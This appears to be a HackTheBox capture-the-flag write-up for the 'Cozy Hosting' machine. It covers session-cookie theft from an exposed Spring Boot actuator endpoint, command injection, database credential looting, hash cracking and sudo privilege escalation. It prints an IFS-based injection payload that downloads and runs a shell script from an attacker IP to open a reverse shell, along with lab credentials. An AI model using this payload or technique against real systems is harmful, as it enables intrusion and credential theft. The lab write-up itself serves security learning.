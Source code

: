 ```yaml
---
title: Cozy Hosting

date: 2023-10-25
categories:
  - HTB
tags:
  - Writeups

---
```


# Introduction
Hey guys 👋!
Today we will be solving an easy HackTheBox machine called **Cozy Hosting**. This machine focuses on session hijacking and command injection. Without wasting any time, let's jump into it.

## Nmap Scan
We will start with the initial Nmap scan to see what ports are open on his machine.

![](https://i.imgur.com/LUT0BWH.png)

There are 2 ports open (22,80). There is also something interesting that the target IP resolves to a domain name i.e., `http://cozyhosting.htb`. Let's add this domain name to our hosts file and see what this website is about.

## Website Enumeration
As soon as we add the hostname to our hosts file, we are able to access the website. This is a hosting website. Let's check the website and see what we can find.
![](https://i.imgur.com/FhM5EQo.png)

Let's poke around and see what we can find. After looking around, we got to know that this website is using bootstrap v5.2.3. After a little more research, we found that the framework this website is using is `springboot framework` 

![](https://i.imgur.com/pIMnCff.png)

There was also a login form which will not easy to bypass. So we will look for some other method to bypass login or something. Other than this information, we did not find anything interesting. So let's fire up gobuster and see what directories this website is hiding from us 😏. Using gobuster, we got some interesting results. The only result that I was interested in was the `/actuator/sessions` directory. Let's navigate to this directory and see what we can find.

![](https://i.imgur.com/W4gNY7z.png)

When we navigated to the directory, we found what we were looking for, session cookies for a user account 😃. 

![](https://i.imgur.com/NaQ7k33.png)

Let's use these cookies and see if we can hijack user session and log into the website.

## Session Hijacking
As we expected, using the `kanderson` cookie, we were able to bypass the login and hijack the user session to log into the website. 

![](https://i.imgur.com/itR3CYA.png)

After logging in, the dashboard seems useless because there are no clickable links or redirection, Until we scroll down. When we scroll down, we see something very interesting. two fields asking for `hostname` and `username`. These fields look like some type of command execution parameters. 

![](https://i.imgur.com/f4AyiZe.png)

Lets fire up the burpsuite and see what these fields are doing.

## Command Injection and Reverse Shell
By testing the request in burpsuite, we saw in the URL that the website trying to run ssh command to execute. It was confirmed there is command injection. after some more testing, the command injection was in the second field i.e., `username`. Now it looked pretty easy to get a reverse shell, but it wasn't. White spaces were not allowed in the payload command. To avoid the white spaces and get a reverse shell, we used the following payload.
Create a reverse shell and spin up the web server to deliver the shell.

```bash
IFS=_;command=curl_http://10.10.16.79/shell.sh_--output_/tmp/shell.sh;$(command)
IFS=_;command=chmod_+x_/tmp/shell.sh;$(command)
IFS=_;command=/tmp/shell.sh;$(command)
```

Above payload gave us initial foothold. 

![](https://i.imgur.com/YxlDUuY.png)

Now, let's stabilize this reverse shell and download the file we are seeing in the target machine.

![](https://i.imgur.com/zNAGhog.png)

As we have stabilized our shell, let's download the jar file and see what it is. After downloading and looking closely into the file, we came to know that this is the website's source code file. And in this file, we found credentials that seems like `postgresSQL` login credentials. Let's use these credentials and see if it works.
```credentials
postgres:Vg&nvzAQ7XxR
```

The above credentials did gave us access to the database. After logging into the postgres, there was a database named `cozyhosting`. After looking into the database, we got some users with their password hashes.

![](https://i.imgur.com/KDmK8tm.png)

Let's grab these hashes and see what we can do with the cracked hashes. With the hashes, there was a home directory for the user named `josh`. This might be the actual user on this box. Let's pass these hashes to hashcat and see what we can get. After the hascat is done, we are left with the followings;

```
admin:manchesterunited
josh:manchesterunited
```

Lets try to ssh into the machine and see if we can get any connection. The admin user didn't work but the josh user worked and we have the user level access on the machine 😃.
Lets get the user flag first and move to the next step.

![](https://i.imgur.com/JU2BRLS.png)

## Privilege Escalation
Now we are heading to our last stage of this machine i.e., privilege escalation. To escalate our privileges,we need to find an attack vector. To do this, first we will loo for any type of binary or script of that we have permission to run as root or any cronjobs that are running ass root user privileges. Type `sudo -l` and in most cases, it gives us some pretty valuable information we are looking.

![](https://i.imgur.com/B5tydoO.png)

As we can see, we do have permissions to run something with root privileges. Let's head over to [GTFObins](https://gtfobins.github.io) and see how we can use ssh to spawn a root shell. GTFObins gave us a payload that will spawn us a root shell. Lets use it and get the root flag.

![](https://i.imgur.com/HPGFcKq.png)

And this machine is rooted. It was a great journey so far. I hope you guys enjoyed it and learned something new. If you think there is some space for improvement or I explained something wring, feel free to ping me 😉. Until then, Good Bye!
